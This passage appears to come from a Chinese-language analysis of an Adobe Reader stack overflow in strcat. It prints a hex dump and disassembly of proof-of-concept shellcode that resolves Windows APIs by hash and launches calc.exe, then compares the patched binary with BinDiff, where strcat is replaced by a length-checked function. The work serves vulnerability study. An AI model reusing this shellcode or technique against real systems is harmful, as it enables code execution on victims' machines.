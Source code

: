 ```
03E90080  01 D3 66 8B 0C 4B 8B 58 1C 01 D3 8B 04 8B 01 D0  觙?K媂計?
03E90090  89 44 24 24 5B 5B 61 59 5A 51 FF E0 5F 5F 5A 8B  塂$$[[aYZQ郷_Z
03E900A0  12 EB 8D 5D 6A 01 8D 85 B2 00 00 00 50 68 31 8B  雿]j崊?..Ph1
03E900B0  6F 87 FF D5 BB F0 B5 A2 56 68 A6 95 BD 9D FF D5  o?栈鸬h綕
03E900C0  3C 06 7C 0A 80 FB E0 75 05 BB 47 13 72 6F 6A 00  <|.€u籊roj.
03E900D0  53 FF D5 63 61 6C 63 2E 65 78 65 00 0C 0C 0C 0C  S誧alc.exe.....
03E900E0  0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ................
```
最后弹出计算器：
```
03E900A3    5D              pop ebp         ; ebp = 03E90021
03E900A4    6A 01           push 0x1
03E900A6    8D85 B2000000   lea eax,dword ptr ss:[ebp+0xB2] ; eax = 03E900D3 "calc.exe"
03E900AC    50              push eax
03E900AD    68 318B6F87     push 0x876F8B31
03E900B2    FFD5            call ebp
```

#### 补丁
利用 BinDiff 插件进行二进制比对，可以看到在修复漏洞时使用函数 `sub_813391E` 替换了 `strcat`：
```
0.92 0.97 GI-JE-C 0803DD33 sub_803DD33 0803DCF9 sub_803DCF9   call reference matching    50    52    51    220    254    247    72    84    83
```

![](/post_pic/2018-04-13-adobe_reader_2010_2883/adobe_reader_diff.png)

跟进函数 `sub_813391E`：
```
.text:0813391E ; int __cdecl sub_813391E(char *Str, char *Source, int)
.text:0813391E sub_813391E     proc near               ; CODE XREF: sub_803C375+244↑p
.text:0813391E                                         ; sub_803C375+2BB↑p ...
.text:0813391E
.text:0813391E Str             = dword ptr  4
.text:0813391E Source          = dword ptr  8
.text:0813391E arg_8           = dword ptr  0Ch
.text:0813391E
.text:0813391E                 push    esi
.text:0813391F                 mov     esi, [esp+4+Str]
.text:08133923                 push    esi             ; Str
.text:08133924                 call    strlen           ; 获得 uniqueName 的长度，返回值在 eax 中
.text:08133929                 pop     ecx
.text:0813392A                 mov     ecx, [esp+4+arg_8]   ; ecx 的值是 0x104
.text:0813392E                 cmp     ecx, eax             ; 判断是否大于 0x104 个字节
.text:08133930                 ja      short loc_8133936    ; 跳转
.text:08133932                 mov     eax, esi
.text:08133934                 pop     esi
.text:08133935                 retn
```